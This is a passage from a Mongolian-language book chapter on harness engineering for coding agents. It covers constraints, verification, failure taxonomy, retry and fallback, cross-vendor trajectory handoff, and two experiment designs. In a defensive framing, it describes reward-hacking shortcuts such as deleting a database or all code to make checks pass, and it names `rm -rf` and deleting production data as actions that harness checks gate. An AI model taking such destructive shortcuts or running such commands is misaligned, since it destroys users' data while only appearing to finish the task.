Бүлэг 1 нь Harness Engineering-ийн ойлголт болон **Agent = Model + Harness** томъёог танилцуулсан. Энд байгаа Harness нь үндсэн томъёоны Context болон хэрэгслүүд, мөн хязгаарлалт, баталгаажуулалт, залруулах механизмуудыг агуулдаг - эдгээр таван элемент нь Бүлэг 1-д тодорхойлсон Harness-ийг бүрдүүлдэг. Код бичих нь Agents нь Harness Engineering хамгийн их үр дүнгээ өгдөг салбар байж магадгүй - код бичих нь бүх Agent даалгавруудаас **хамгийн баталгаажуулж болох** зүйл бөгөөд түүний хязгаарлалт, баталгаажуулалт, залруулга нь бүгд одоо байгаа дэд бүтцэд тулгуурлаж болно. Энэ хэсэг нь код бичих Agent хувилбарын тодорхой практикт анхаарлаа хандуулдаг.

Систем тогтвортой ажиллах эсэх нь ихэвчлэн Model-ын хүчнээс бага, харин Agent-ийн эргэн тойронд баригдсан дэд бүтцийн бат бөх чанараас хамаардаг. Бүлэг 1 нь бэхэлгээг хоёр давхаргад хуваадаг - **Context ба Tools** (Agent-ийг ажиллуулах боломжийг олгодог) ба **Хязгаарлалт, Баталгаажуулалт ба Залруулга** (Agent-ийг аюулгүй, зөв ​​ажиллуулахад тусалдаг). Кодлох Agent хувилбарт эдгээр нь тодорхой инженерийн бүрэлдэхүүн хэсгүүдэд хөрвүүлэгддэг:

- **Хүлээн авах суурь түвшин**: "Дууссан" гэж юуг хэлнэ вэ — туршилтын багцууд, CI дамжуулах хоолой (Тасралтгүй интеграцийн дамжуулах хоолой, код илгээсний дараа автоматаар ажилладаг цуврал шалгалтууд), код хянах стандартууд
- **Гүйцэтгэлийн хил хязгаар**: Agent юунд хүрч болох, юунд хүрч болохгүй вэ - модулийн хил хязгаар, хамаарлын дүрэм, зөвшөөрлийн хяналт
- **Санал хүсэлтийн дохио**: Зөв байдлын автомат үнэлгээ—Linter (форматлах алдаа болон болзошгүй асуудлуудыг автоматаар олох боломжтой кодын хэв маяг шалгах хэрэгсэл) гаралт, туршилтын үр дүн, төрөл шалгах алдаа
- **Буцаах механизм**: Хэрэв ямар нэгэн зүйл буруу болвол хэрхэн сэргээх вэ—Git хувилбарын хяналт, хамгаалагдсан орчны тусгаарлалт, агшин зуурын хуулбарыг буцаах

**Яагаад Agents кодчилол нь бэхэлгээний инженерчлэлд онцгой тохиромжтой вэ?**

Зорилго хэр тодорхой, баталгаажуулалт хэр автоматжсан гэх мэт хоёр хэмжээс нь даалгавруудыг дөрвөн төлөвт хуваадаг. Автоматаар баталгаажуулах боломжтой үр дүнтэй тодорхой зорилго бол Agents цэцэглэн хөгжиж буй нутаг дэвсгэр юм; хүлээн зөвшөөрөгдөх нь хүний ​​нүднээс хамаардаг тодорхой зорилго нь хүний ​​хяналт шалгалтын хурдаар дамжуулах чадварыг хязгаарладаг; тодорхой бус зорилготой автоматжуулсан санал хүсэлт нь системийг буруу чиглэлд үр ашигтай ажиллуулах боломжийг олгодог; хоёулаа байхгүй бол Agent нь бараг ашиггүй болно. Хүснэгт 5-1 нь эдгээр дөрвөн төлөвийг харуулж байна. Бэхэлгээний зорилго нь аль болох олон даалгаврыг "тодорхой зорилго + автоматжуулсан баталгаажуулалт" квадрант руу түлхэх явдал юм.

Хүснэгт 5-1 Даалгаврын тодорхой байдал болон баталгаажуулалтын автоматжуулалтын дөрвөн хэсэг

| | Үр дүнг автоматаар баталгаажуулж болно | Үр дүнг гараар баталгаажуулах шаардлагатай |
|---------|--------------------------------------------|------------------------------------------|
| **Тодорхой зорилго** | Хамгийн сайн цэг: туршилтын тохиолдлуудаар алдааг засах | Хязгаарлагдмал нэвтрүүлэх чадвар: кодыг дахин боловсруулах нь гараар хянах шаардлагатай |
| **Тодорхойгүй зорилго** | Үр дүнтэйгээр замаас хазайх: "кодын чанарыг" богино холбоосоор оновчтой болгох | Эхлэхэд хэцүү: "UI-г илүү сайхан харагдуулах" |

Код бичих даалгаварууд нь "тодорхой зорилго + автоматжуулсан баталгаажуулалт" гэсэн квадрантыг эзэлдэг бөгөөд туршилтын багцууд нь тодорхой хүлээн авах шалгуурыг хангадаг, линтер болон төрөл шалгагч нь шуурхай автоматжуулсан баталгаажуулалтыг санал болгодог бөгөөд Git нь төгс хувилбарын хяналт болон буцаах чадварыг хангадаг. Энэ нь код бичих Agents нь одоогоор бүх Agent төрлүүдийн дунд хамгийн боловсорсон нь шалтгааныг тайлбарладаг: код үүсгэх Model-ууд нь онцгой хүчирхэг учраас биш, харин олон арван жилийн програм хангамжийн инженерчлэлийн дэд бүтэц нь байгалийн жамаар бат бөх бэхэлгээг бүрдүүлдэг учраас юм.

**Үйлдвэрлэлийн дадлага.**

Харнессийн практикийн гурван тохиолдлын судалгаа нь дээрх зарчмуудыг баталж байна:

- **Том хэмжээний код шилжүүлэх тохиолдол** (томоохон технологийн компанийн олон нийтэд хуваалцсан томоохон хэмжээний код шилжүүлэх практикаас): Гол нь Model-ын давуу тал биш, харин Харнесс гурван зүйлийг зөв хийж байгаа явдал байв - мэдлэг нь кодын баазад өөрөө байх ёстой (Agent-ийн харж чадахгүй зүйл байхгүй), хязгаарлалтууд нь баримт бичигт бичигдээгүй, харин шугам болон CI руу кодлогдсон бөгөөд баталгаажуулалт болон залруулга нь бүрэн автоматжуулсан бөгөөд бүрэн автоматжуулсан.
- **LangChain**: Зөвхөн Harness-ийг оновчтой болгосноор (системийн заавар, хэрэгслийн дунд програм хангамж, өөрийгөө баталгаажуулах давталт) жишиг даалгаврын гүйцэтгэлийг мэдэгдэхүйц сайжруулсан. Ялангуяа Harness-ийг сайжруулахын тулд алдааны чиглэлийг шинжлэхэд Agent ашиглах арга зүйг онцлон тэмдэглэх нь Harness инженерчлэлийг туршлагад суурилсан байдлаас өгөгдөлд суурилсан болгон өөрчилсөн явдал юм.
- **Anthropic**: Урт даалгавруудыг хоёр үүрэгт хуваадаг - том даалгавруудыг даалгаврын жагсаалтад хуваах үүрэгтэй Agent эхлүүлэх, дараа нь завсрын үр дүнг (жишээ нь дууссан кодын файлууд болон шинэчлэгдсэн даалгаврын жагсаалтууд) дараагийн шатанд үргэлжлүүлэн ашиглахаар үлдээх алхам алхмаар ахиц дэвшил гаргах үүрэгтэй Agent гүйцэтгэх. Энэхүү хөдөлмөрийн хуваарилалт нь удаан хугацаанд ажиллаж байгаа Agents-ийн "нэг дор хэт их зүйл хийхийг оролдох" эсвэл "дутуу дуусгасан" гэсэн асуудлыг шийддэг.

**Agent кодчилолоос эхлээд бэхэлгээний ерөнхий дизайны зарчим хүртэл.**

Agents кодчилолын бэхэлгээний практик нь бүх Agent системд зориулсан шилжүүлэх боломжтой дизайны зарчмуудыг өгдөг:

1. **Зааварчилгаанаас хэтэрсэн хязгаарлалт**: Кодоор хэрэгжүүлж болох дүрмийг зөвхөн баримт бичигт санал болгоод зогсохгүй тэнд кодлох ёстой. Линтерийн дүрэм, төрлийн хязгаарлалт, CI шалгалтын утга нь системийн зааварчилгаа дахь "дагаарай..." гэсэн заавраас хамаагүй давсан байдаг - эхнийх нь "хийж болохгүй" гэсэн утгатай, сүүлийнх нь зүгээр л "хийхгүй байхыг зөвлөж байна" гэсэн үг юм.
2. **Баталгаажуулалтыг автоматжуулах**: Гараар хянах нь өргөжүүлэх боломжгүй саад тотгор юм. Тестийн багцууд, кодын чанарын шалгалт, зан төлөвийн хяналтад хөрөнгө оруулах нь хүний ​​хүчин чармайлтыг нэмэгдүүлэхээс хамаагүй өндөр өгөөж өгдөг.
3. **Санал хүсэлт аль болох хурдан бөгөөд бүтэцлэгдсэн байх ёстой**: Алдааны мессеж илүү дэлгэрэнгүй, алдаа гарсан мөчид ойртох тусам Agent өөрийгөө илүү үр дүнтэй засах боломжтой. Бүлэг 2-ын Agent төлөвийн мөрийн техникүүд (алдааны дэлгэрэнгүй мессеж, хэрэгслийн дуудлагын тоолуур) нь энэ зарчмыг агуулдаг.
4. **Буцаан олголт найдвартай байх ёстой**: Agents нь зөвхөн аюулгүйн тор дотор ажиллаж байх үед л зоригтой туршилт хийж чадна. Git салбарууд, хамгаалагдсан орчны орчин болон агшин зургийн механизмууд нь аливаа алдааг буцаах боломжтой гэдгийг баталгаажуулдаг.

**Хязгаарлалтын илүү гүнзгий зорилго: процессын алдаанаас урьдчилан сэргийлэх.** Хүлээн авах суурь шугам нь үр дүн зөв эсэхийг зохицуулдаг; гүйцэтгэлийн хил хязгаар нь **процессыг** зохицуулдаг - зөв үр дүн ч гэсэн буруу аргыг зөвтгөдөггүй. Өгөгдлийн сангийн алдааг "засах"ын тулд мэдээллийн санг устгаж, дахин бүтээх нь үүнийг засдаг боловч өгөгдөл алга болдог; эмхэтгэлийн алдааг засахын тулд бүх кодыг устгах нь эмхэтгэлийг амжилттай болгодог боловч хэрэгжилт алга болдог. Ийм хор хөнөөлтэй товчлолууд үргэлж байдаг: хязгаарлалтыг эцсийн үнэлгээний хэмжүүрт бичсэн ч Agents тэдгээрийг тойрч гарах арга замыг олдог - энэ нь Agent даалгавруудад шагнал хакердах өдөр тутмын хэлбэр юм (Бүлэг 8). Тиймээс үйлдвэрлэлийн бэхэлгээ нь `rm -rf`, үйлдвэрлэлийн өгөгдлийг устгах эсвэл уншаагүй файлыг дарж бичих (энэ бүлгийн аюулгүй байдлын хэсэгт семантик задлан шинжлэх, Бүлэг 4 дэх Sidecar тойм) зэрэг аюултай үйлдлүүдэд тусгай шалгалт, зөвшөөрлийг байрлуулдаг бөгөөд зөвхөн үр дүнг төдийгүй **үйлдлүүдийг** хязгаарладаг. Бүлэг 8 дахь RLVP (Баталгаажсан шийтгэлтэй бэхжүүлэх сургалт - "үр дүнг шагнах, замыг шийтгэх") нь сургалтын талаас ижил асуултад хариулдаг: эцсийн үр дүнгийн шагналаас гадна энэ нь замын дагуух баталгаажсан зөрчлийг шийтгэж, "хор хөнөөлтэй арга байхгүй" гэдгийг Model-ын инженерчлэлийн нийтлэг ойлголт болгон дотооджуулдаг. Одоо байгаа Model-ын хувьд бэхэлгээний хашлага нь гадаад хязгаарлалт юм; сургаж болох Model-ын хувьд үйл явцын шийтгэл нь ижил хязгаарлалтыг дотооджуулдаг. Зорилго нь адилхан.

**Tool Orchestration: Алдааны хил хязгаарын хяналт**. Төлөвшсөн кодчилол Agents нь зэрэгцээ хэрэгслийн дуудлагыг дэмждэг. Harness-ийн үүднээс авч үзвэл өвөрмөц асуудал бол **алдаан хэрхэн тархдаг вэ**: нэг хэрэгсэл ажиллахаа больсон үед аль дуудлагыг зогсоох, аль нь үргэлжлэх ёстой вэ? Зарчим нь алдаа нь зөвхөн ижил зэрэгцээ дуудлагын багц дотор тархдаг бөгөөд эцэг үйлдэл хүртэл тархдаггүй. Жишээлбэл, гурван файлыг зэрэгцээ унших үед алга болсон файл нь зөвхөн тухайн дуудлагыг ажиллахгүй болгох ёстой; энэ нь нөгөө хоёрыг нь цуцлах эсвэл бүхэл бүтэн даалгаврыг зогсоох ёсгүй. Энэхүү нарийн ширхэгтэй алдааны хил хязгаарын хяналт нь "нэг командын алдаа нь бүхэл бүтэн даалгаврыг зогсоох" эмзэг хэв маягаас зайлсхийдэг. Зэрэгцээ дуудлага, урсгалын задлан шинжлэх, каскадын тасалдлын тодорхой механизмыг энэ бүлгийн "Хэрэгжүүлэх зөвлөмж" хэсэгт дэлгэрэнгүй тайлбарласан болно.

### Алдаа болон алдааг сэргээх

Өмнөх хэсэгт Harness инженерчлэлийн зарчим, бүрэлдэхүүн хэсгүүдийг танилцуулсан; энэ хэсэгт инженерчлэлийн төлөвшлийг хамгийн их ялгадаг хэсэг болох **алдаа болон алдааг сэргээх**-ийг авч үзэх болно. Бүлэг 1 дээрх абляцийн туршилт нь асуудал хэр ноцтой байж болохыг харуулсан: багаж хэрэгслийн үр дүнгийн нэг хариу үйлдэл дутуу байх нь Agent-ийг хязгааргүй гогцоонд барихад хангалттай бөгөөд бодит үйлдвэрлэлийн орчинд аливаа туршилтаас хамаагүй олон янзын алдаа гардаг. Энэ хэсэгт гурван асуултанд системтэйгээр хариулдаг: Үйлдвэрлэлийн Harness ямар алдаатай тулгардаг вэ? Тэдгээрийг хэрхэн илрүүлж, сэргээдэг вэ? Мөн систем хэзээ дуусах ёстой вэ? [^ch5-3]

[^ch5-3]: Энэ хэсэгт байгаа алдааны ангилал зүй болон механизмын шинжилгээ нь Claude Code гэх мэт үйлдвэрлэлийн түвшний Agent хэрэгжүүлэлтийн эх кодын судалгаанд үндэслэсэн болно. Тодорхой хэрэгжүүлэлтүүд хувилбарууд хооронд хурдан хөгжиж байдаг; энэ хэсэгт зөвхөн тогтвортой инженерчлэлийн зарчмуудыг нэрж авч үздэг.

**Алдаа дутагдлын ангилал зүй: дөрвөн давхарга.** Системчилсэн хариу үйлдэл үзүүлэх эхний алхам бол ангилал юм. Алдаа дутагдлууд нь хаана үүссэнээс хамааран дөрвөн давхаргад хуваагддаг:

- **API давхарга**: хурдны хязгаарлалт (HTTP 429), үйлчилгээний хэт ачаалал, хүсэлтийн хугацаа дуусах, холболт тасалдах, гаралт нь Token-ы хязгаарт тасалдсан. Эдгээр алдаанууд нь даалгавартай өөрөө холбоогүй - эдгээр нь дэд бүтцийн чимээ юм.
- **Tool давхарга**: хий үзэгдэлтэй дуудлага (байхгүй хэрэгслийг дуудах), буруу хэлбэртэй аргументууд (хэрэгслийн оролтын гэрээг зөрчих), гүйцэтгэлийн үл хамаарах зүйлс, мөн хамгийн аюултай төрөл - Model нь өөрчлөгдөөгүй дахин оролдох үед хэрэгсэл ижил алдааг дахин дахин буцаадаг.
- **Context давхарга**: Context цонхны халилт, нягтралын алдаа, замын бүтцийн эвдрэл (жишээлбэл, багажны дуудлагын хосолсон үр дүнгийн мессеж алга болсон).
- **Удирдлагын урсгалын давхарга**: хязгааргүй давталт (ижил үйлдлийг давтаж, ахиц дэвшил гарахгүй) ба үхлийн спираль (алдаа өөрөө өдөөгдсөн сэргээх логик нь LLM-г дуудаж, дахин алдаа гаргаж, каскад үүсгэдэг).

**Илрүүлэлт: эхлээд ангилж, дараа нь тоол.** Алдаа гарсан үед эхний асуулт нь "Бид дахин оролдох ёстой юу?" биш, харин "Дахин оролдох нь туслах уу?" гэсэн асуулт юм. Дахин оролдож болох алдаанууд (хурдны хязгаарлалт, хэт ачаалал, сүлжээний чичиргээ) дахин оролдох нь зүйтэй; дахин оролдож болохгүй алдаанууд (хүчингүй аргументууд, хангалтгүй зөвшөөрөл, байхгүй хэрэгсэл) нь хэдэн удаа байгаагаар нь дахин оролдсон ч ижил үр дүнг гаргана - оролт эсвэл стратеги өөрчлөгдөх ёстой. Үйлдвэрлэлийн бэхэлгээ нь "алдаа гарсан үед дахин оролдох" гэсэн ерөнхий ойлголтын оронд алдааны төрлөөс сэргээх стратеги хүртэлх зураглалыг хадгалдаг.

Хувь хүний ​​алдаанаас гадна **хэв маягийг** илрүүл. Нэгдүгээрт, хурууны хээг давтан дуудах: "хэрэгслийн нэр + аргументууд" хосыг хэшлэх; ижил хурууны хээ давтагдах нь урагшлахгүй давталтын тодорхой дохио юм - Бүлэг 1-ийн абляцийн туршилтын Agent нь яг энэ хэв маяг байсан. Хоёрдугаарт, дараалсан алдааны тоолуур: сэргээх зам бүр өөрийн гэсэн тоолуурыг хадгалдаг бөгөөд энэ нь дараа нь хэлэлцэх хэлхээний таслуурын үндэс суурийг тавьдаг.

Гурав дахь ангиллын алдаа нь огт алдаа хэлбэрээр илэрдэггүй бөгөөд зориулалтын **амьдралын болон бүрэн бүтэн байдлын хяналт** шаарддаг. Урсгал холболтын хамгийн аюултай алдааны горим нь уналт биш (энэ нь шууд алдаа гаргадаг), харин чимээгүй зогсолт юм - холболт тогтсон хэвээр байгаа ч өгөгдлийн урсгал ус гаргадаггүй холбогдсон хоолой шиг зогсдог. SDK хугацаа дуусах нь ихэвчлэн зөвхөн анхны холболтыг хамардаг бөгөөд дамжуулах процессыг хамардаггүй тул үйлдвэрлэлийн Agent нь гацсан урсгалыг зогсоож, хугацаа дуусахад дахин оролдлого үүсгэдэг бие даасан идэвхгүй хяналтын дохио (хяналтын таймер - хэрэв тогтоосон интервалд шинэ гаралт ирээгүй бол холболтыг гацсан гэж үзнэ) шаарддаг. Энэ нь зарчмыг ерөнхийд нь авч үздэг: **урт хугацааны холболт бүрт зөвхөн холболтын хугацаа дуусах биш, харин амьд байдлын дохио хэрэгтэй**. Бүрэн бүтэн байдлын хяналт нь замын бүтцийг чиглүүлдэг: хэрэгслийн дуудлагад хосолсон үр дүнгийн мессеж байхгүй байгаа нь тогтоогдвол систем нь бүтцийн гажигийг Model эсвэл хэрэглэгч рүү шидэхийн оронд Context оруулахаасаа өмнө хослолтыг засдаг. Нэг онцлох инженерчлэлийн нарийн ширийн зүйл: зарим үйлдвэрлэлийн Agents нь үйлдвэрлэлийн горим болон сургалтын өгөгдөл цуглуулах горимыг хоёуланг нь ажиллуулдаг - үйлдвэрлэлийн горим нь алга болсон мессежийг орлуулагчаар нөхөж болох бол сургалтын горим нь синтетик орлуулагч нь сургалтын өгөгдлийг бохирдуулж болзошгүй тул засахаас татгалздаг. Энэхүү "үйлдвэрлэлд зөөлөн, сургалтад хатуу" гэсэн хос стандарт нь Harness болон Model сургалтын хоорондох гүн гүнзгий холбоог тусгадаг.

**Сэргээлт: улам бүр харагдах үе шатуудаар дамжин өргөжих.** Сэргээлтийн хэмжүүрүүдийг хэрэглэгчдэд хэр харагдах байдлаар нь ангилдаг; хэрэв доод түвшин асуудлыг шийдэж байвал өргөжүүлэх хэрэггүй:

1. **Чимээгүй дахин оролдлого**. Дахин оролдож болох алдаануудын анхдагч үйлдэл. Дахин оролдлого амжилттай эсэхийг хоёр зүйл тодорхойлно: нэгдүгээрт, Server-ийн санал болгосон хүлээлтийн хугацааг хүндэтгэхийн зэрэгцээ үйлчлүүлэгчдийн флотыг түгжих шатанд дахин оролдож, хоёрдогч ачаалал үүсгэхээс урьдчилан сэргийлэхийн тулд санамсаргүй чичиргээтэй экспоненциал буцалтыг ашиглах; хоёрдугаарт, урд талын дуудлагыг арын дуудлагаас ялгах - бүтэлгүйтсэн гол давталтын хүсэлтийг дахин оролдох боловч туслах арын дуудлагууд (гарчгийн үүсгэлт, оролтын саналууд) амжилтгүй болсон тохиолдолд унадаг, эс тэгвээс арын давталтын оролдлогууд нь гол давталтын квотыг шахаж, "дахин оролдох олшруулалт" үүсгэхгүй.
2. **Доодруулж үргэлжлүүлэх**. Дахин оролдлого амжилтгүй болсон үед хүсэлтийг өөрчилөөд дахин оролдоно уу. Гаралтын таслалтыг авна уу (үе шат нь уртын хязгаараар таслагдана): эхлээд гаралтын хязгаарыг нэмэгдүүлж чимээгүйхэн дахин илгээнэ үү; хэрэв энэ нь хангалтгүй хэвээр байвал Model нь завсарлагааны цэгээс үүсэлтийг үргэлжлүүлэхийн тулд мессежийн төгсгөлд мета-зааварчилгаа нэмнэ үү. Үндсэн Model байнга хэт ачаалалтай байх үед өөр Model руу буцаж очоод, эхлээд өмнөх Model-ын түүхээс өмчийн форматын блокуудыг хасаж, шинэ Model үүнийг задлан шинжлэх боломжтой болно; өндөр өртөгтэй горим хурдаар хязгаарлагдсан үед түр хугацаагаар стандарт горим руу буцна уу.
3. **Хэрэглэгчийн гадаргуу дээр**. Бүх автомат хэрэгслүүд дууссаны дараа л алдааг аль хэдийн оролдсон сэргээх үйлдлүүдийн хамт харуулна.

Tool давхаргын алдаанууд өөр замаар явдаг: **сессийг зогсоохгүй; алдааг Model-ын оролт болгон хувиргах**. Галлюцинациятай дуудлага нь бүтэцлэгдсэн "тийм хэрэгсэл байхгүй" гэсэн алдааны үр дүнг хүлээн авдаг; баталгаажуулалтын алдаа нь оролтын гэрээний талаарх зөвлөмж бүхий алдааг хүлээн авдаг; буруу хэлбэртэй аргументууд (объект хүлээгдэж байсан газраас гаргасан тэмдэгт мөр)-ийг гүйцэтгэхийн өмнө програмчлалын аргаар засдаг. Эдгээр алдаанууд нь ердийн хэрэгслийн үр дүн хэлбэрээр Context-эд орж, Model нь дараагийн ээлжинд өөрийгөө засдаг - энэ нь "санал хүсэлт илүү бүтэцлэгдсэн байх тусмаа сайн" гэсэн өмнөх зарчмын хэрэглээ юм: алдааг буцааж өгөх тусам Model-ын өөрийгөө засах түвшин өндөр байдаг.

Энэ хэсгийн гол зарчим нь: **алдааг зохицуулах нэгж нь ганц хүсэлт биш, харин бүхэл бүтэн сэргээх давталт юм**. Сэргээх боломжгүй гэдгийг батлах хүртэл завсрын алдааг хэрэглэгчдэд ил болгох ёсгүй - хэрэглэгч эсвэл дараагийн системүүд үйл явдлуудад бүртгүүлсэн эсэхээс үл хамааран: сэргээх явцад алдааны мессежийг нуух; хэрэв сэргээх амжилттай бол хэрэглэгчид хэзээ ч анзаардаггүй; бүх зүйл бүтэлгүйтсэн үед л нуугдсан алдааг гаргадаг. Энэ бол Бүлэг 1-ийн залруулах зарчмын инженерчлэлийн хэрэгжилт юм - "сэргээх боломжгүй гэдгийг батлах хүртэл завсрын төлөвийг бүү ил болго."

**Хүргэлт: дуусаагүй замыг өөр Model-т шилжүүлэх.** Үндсэн Model боломжгүй хэвээр байх үед өөр нэг үйлдвэрлэгч замыг дуусгах ёстой. Жинхэнэ саад тотгор нь төгсгөлийн цэг өөр байгаад биш, харин замын хэсэг нь зөвхөн анхны үйлдвэрлэгчид хамаарна. Tool дуудлага болон хэрэгслийн үр дүн нь үйлдвэрлэгчдэд өөр өөрөөр бүтэцлэгдсэн боловч ижил утгатай тул тэдгээрийг дахин дүрслэх нь хангалттай; Model-ын үндэслэл нь хэцүү хэсэг юм. Дүгнэлт нь ихэвчлэн хоёр зүйлээс бүрдэнэ: уншигдахуйц текст, мөн үйлдвэрлэгчийн үндэслэл нь өөрөөсөө гарсан гэдгийг нотлохын тулд түүнд хавсаргасан итгэмжлэл. Текст нь өөр Model-т уншигдахуйц хэвээр байгаа бөгөөд итгэмжлэл нь тэнд үнэ цэнэгүй байдаг - **борлуулагч хоорондын шилжүүлэг нь текстийг авч явах боломжтой боловч итгэмжлэлийг авч явахгүй**.

Нийлүүлэгчид итгэмжлэлээс юу шаардах тал дээр санал нийлдэггүй. Зөвшөөрлийн төгсгөл нь юуг ч баталгаажуулдаггүй; хатуу төгсгөл нь олгоогүй аливаа итгэмжлэлийг няцаадаг. Мөн итгэмжлэл нь үндэслэлтэй заавал хавсаргасан байдаггүй - үүнийг хэрэгслийн дуудлагад хавсаргасан байж болно. Тиймээс зарим нийлүүлэгчдэд "зүгээр л бүх үндэслэлийг устгаад л болно" гэсэн аюулгүй бодлого яг бүтэлгүйтдэг. Хүргэлтийг хамгийн хатуу зорилгод зориулан боловсруулсан байх ёстой бөгөөд үүнийг хангаж чадахгүй тохиолдлуудад нөөц боломж олгох ёстой: түүхэн хэрэгслийн дуудлагыг үг хэллэг болгон дахин бичих нь Model-ыг тэдгээрийг үнэндээ ашигласан хэрэгсэл гэж үзэхээс сэргийлдэг ч ядаж л үргэлжлүүлэх боломжийг олгодог.

Энэ нь дизайны зарчмыг гаргаж авдаг: траекторыг ямар ч нийлүүлэгчийн утсан форматаар хадгалах ёсгүй, харин төвийг сахисан хэлбэрээр хадгалах ёстой. Үндэслэлийн сегмент бүрийг зөөврийн текст болон зөөврийн бус итгэмжлэл гэж хуваадаг; хэрэгслийн дуудлага нь зөвхөн түүний нэр, аргументыг тэмдэглэдэг бөгөөд хүсэлтийг гүйцэтгэх үед зорилтот нийлүүлэгчийн хувьд танигчдыг дахин үүсгэдэг. Шилжүүлэгч дээр итгэмжлэлийг үргэлж хаяж, текстийг зорилтот нийлүүлэгчийн үндэслэлийг хадгалж байгаа газар руу буцааж түлхэхийн оронд ердийн контент болгон дамжуулдаг. Нийлүүлэгчийн буцаасан үндэслэлийн хураангуй нь энэ нөхцөл байдалд зориулагдсан зөөврийн хуулбар юм - үүнийг хадгал, ямар нэгэн зүйлийг шахахын тулд Model-ыг дахин дуудах шаардлагагүй. Төвийг сахисан траекторын утга нь бас алдааны эргэлтээр хязгаарлагдахгүй: Бүлэг 7-ийн үнэлгээний давталт, Бүлэг 8-ийн сургалтын дээжийн бүтэц, Бүлэг 9-ийн туршлагыг гаргаж авах нь бүгд ижил артефакт дээр тулгуурладаг.

> **5-1 туршилт ★★★: Борлуулагч хоорондын траекторын дамжуулалт**
>
> **Туршилтын зорилго**: Төвийг сахисан замын формат нь хагас дууссан Agent замыг өөр үйлдвэрлэгчийн Model-аар дуусгах боломжийг олгодог эсэхийг шалгаж, "үгчилсэн байдлаар дамжуулах" болон "бүх зүйлийг хуулах" зардал тус бүрийг тоон үзүүлэлтээр тодорхойлно уу.
>
> **Техникийн арга**: Хэд хэдэн удаагийн багажны дуудлага шаардлагатай даалгаврыг ашиглана уу; дундуур нь одоогийн нийлүүлэгчийн хувьд дараалсан хурдны хязгаар болон хэт ачааллын хариуг оруулж, хэлхээний таслуур ажилласны дараа өөр нийлүүлэгч рүү шилжиж үргэлжлүүлнэ үү. Замыг төвийг сахисан хэлбэрээр хадгална уу, учир шалтгааныг зөөврийн текст болон зөөврийн бус итгэмжлэл болгон хувааж, багажны дуудлага нь зөвхөн түүний нэр, аргументыг бүртгэдэг. Гурван эмчилгээг харьцуулна уу: **нэвтрэлт** нь анхны нийлүүлэгчийн мессежийг үгчилсэн байдлаар шинэ нийлүүлэгчийн бүтэц рүү шилжүүлдэг; **хуулбарлах** нь бүх шалтгаан болон итгэмжлэлийг устгадаг; **төвийг сахисан** нь итгэмжлэлийг хаяж, текст эсвэл нийлүүлэгчийн буцаасан шалтгааны хураангуйг ердийн контент болгон авч явдаг, зорилтот нийлүүлэгчийн танигчийг сэргээж, хүлээн авагч тал нь итгэмжлэл шаардах үед түүхэн дуудлагыг үг хэллэг болгон дахин бичдэг. Утасны формат нь өөр өөр гурван нийлүүлэгчийг сонгоод хос бүрийн хооронд шилжинэ.
>
> **Хүлээн авах шалгуур**: Шилжүүлэлт бүрийн дараах эхний хүсэлтийн түүхий хариуг хадгалах; дамжуулалтын алдаа нь нийлүүлэгчийн жинхэнэ алдаа байх ёстой бөгөөд хэзээ ч дуураймал биш. Ямар ч нийлүүлэгчийн хос дээр API алдаа гаргахгүй байхыг төвийг сахисан боловсруулалтыг шаардаж, бусад хоёр нь аль хос дээр, ямар алдаатайгаар бүтэлгүйтсэнийг үнэн зөв тэмдэглэнэ үү. Даалгаврын гүйцэтгэл, шилжүүлэгчийн дараа ижил хэрэгслийг хэр олон удаа дахин дуудсан (хэрэгслийн нэр болон аргументуудаар хурууны хээгээр тэмдэглэсэн), шилжүүлэгчийн дараа дуусгахад шаардлагатай нэмэлт тойрог болон Token-уудын талаар гурвыг харьцуулна уу. Хэрэв төвийг сахисан боловсруулалт нь илүүдэл дуудлагуудын хуулахаас илүү биш бол үүнийг мөн адил үнэн зөв тэмдэглэнэ үү.

> **Туршилт 5-2 ★★: Output хагас тасарсны дараа үргэлжлүүлэх**
>
> **Туршилтын зорилго**: "Бүхэл ээлжийг дахин илгээх"-ийг өртөг, зөв ​​байдал болон гаж нөлөөний хувьд "хагас бичигдсэн гаралтаас угтвар болгон үргэлжлүүлэх"-тэй харьцуул.
>
> **Техникийн арга**: Урсгалын хариу үйлдлийн гурван цэг дээр холболтыг таслах - үндэслэлийн дунд, зохиолын дунд, хэрэгслийн дуудлагын дунд аргумент. Сэргээх гурван зам: фрагментийг хаяж, бүхэл бүтэн эргэлтийг дахин илгээх; фрагментийг дараагийн туслах мессеж болгон нэмж, Model-аас үргэлжлүүлэхийг хүсэх (зарим үйлдвэрлэгчид үүнийг төрөлхийн дэмждэг, зарим нь мессежийг үргэлжлэлийг хүлээж буй мессеж гэж тодорхой тэмдэглэхийг шаарддаг бөгөөд ийм интерфэйсгүй хүмүүс дараагийн зам руу буцдаг); завсарлагаас үргэлжлүүлэх мета-зааварчилгааг нэмэх. Хагас бичигдсэн хэрэгслийн дуудлагыг төрөлхийн бүтцэд нь буцааж илгээх боломжгүй тул Model-ыг дуусгахын тулд текст болгон хувиргаж, дараа нь залгасны дараа дахин задлан шинжилж, баталгаажуулах ёстой. Хэрэв хэрэгслийг фрагментээс аль хэдийн идэвхтэй гүйцэтгэсэн бол гаж нөлөөг давтахаас зайлсхийхийн тулд үргэлжлүүлэхээсээ өмнө дуудлагын хурууны хээгээр давхардлыг хас.
>
> **Хүлээн авах шалгуур**: Гурван завсарлагааны цэг бүрийг хэд хэдэн удаа давтаж, маршрут бүрийн хувьд сэргээх түвшин, бүрэн дахин илгээлттэй харьцуулахад хадгалагдсан гаралтын Token-ууд, дууссан аргументуудын хүчин төгөлдөр байдал болон семантик зөв байдал (хавсаргасан нь амархан хоосон зай эсвэл давхардсан тэмдэгтүүдийг нэмдэг бөгөөд хүчин төгөлдөр нь зөвтэй адил биш), мөн давтагдсан гаж нөлөөний тоог мэдээлнэ үү. Мөн аль завсарлагааны цэгүүдийг аль үйлдвэрлэгчдэд хуулбарлах боломжгүй, нөөц зам ажиллаж байгаа эсэхийг тэмдэглэнэ үү.

